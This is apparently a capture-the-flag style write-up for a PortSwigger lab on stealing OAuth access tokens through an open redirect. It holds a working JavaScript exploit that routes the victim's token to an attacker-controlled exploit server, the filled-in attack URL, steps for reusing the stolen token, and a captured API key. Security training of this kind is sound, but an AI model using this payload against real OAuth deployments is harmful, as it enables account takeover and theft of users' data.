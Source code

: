 ```
<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```


```
https://oauth-0ae700ab04661448816b055402e800c5.oauth-server.net/auth?client_id=vxn9jlxsyf55ruju00ocn&redirect_uri=https://0a43008e041914c5811007e300e600c7.web-security-academy.net/oauth-callback/../next?path=https://exploit-0a2900f804c4142b819506ee011e0033.exploit-server.net/&response_type=token&nonce=454378282&scope=openid%20profile%20email
```



```
<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-0ae700ab04661448816b055402e800c5.oauth-server.net/auth?client_id=vxn9jlxsyf55ruju00ocn&redirect_uri=https://0a43008e041914c5811007e300e600c7.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a2900f804c4142b819506ee011e0033.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```


View exploit and you should have your key in the log
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/8304e20d-b34b-4bb6-b3c7-a027e26091eb)


Deliver to victim to get there access token
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/48e41025-fc45-4197-a937-5ed4fe6d85ed)



• In Repeater, go to the GET /me request and replace the token in the Authorization: Bearer header with the one you just copied. Send the request. Observe that you have successfully made an API call to fetch the victim's data, including their API key. 

From <https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect> 

```
e7fvdtEyPB-e0QwqizuQzjpIYbsWvMbdbweJEGickZG
```

From <https://exploit-0a2900f804c4142b819506ee011e0033.exploit-server.net/log> 
